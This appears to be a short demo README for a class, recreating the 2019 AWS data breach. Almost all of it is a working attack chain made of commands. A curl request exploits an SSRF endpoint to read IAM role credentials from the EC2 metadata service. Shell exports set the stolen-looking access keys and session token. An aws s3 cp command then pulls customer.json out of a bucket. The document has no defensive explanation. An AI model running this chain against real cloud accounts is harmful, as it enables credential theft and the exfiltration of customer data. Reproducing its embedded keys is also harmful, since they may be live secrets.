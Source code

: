 # 2019-AWS-Data-Breach-Demo

```
curl http://<EC2_public_ip>>/ssrf.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2_role
```


```shell
export AWS_ACCESS_KEY_ID="ASIAZDZTCACO7BAZ7KEE"
export AWS_SECRET_ACCESS_KEY="S7z6biyOscdzDEVuLLLXa0GwHYRdN89ivkMy/4Dz"
export AWS_SESSION_TOKEN="IQoJb3JpZ2luX2VjEFYaCXV..."
```

```shell
aws s3 cp s3://jhu-en-650-603/customer.json - | cat
```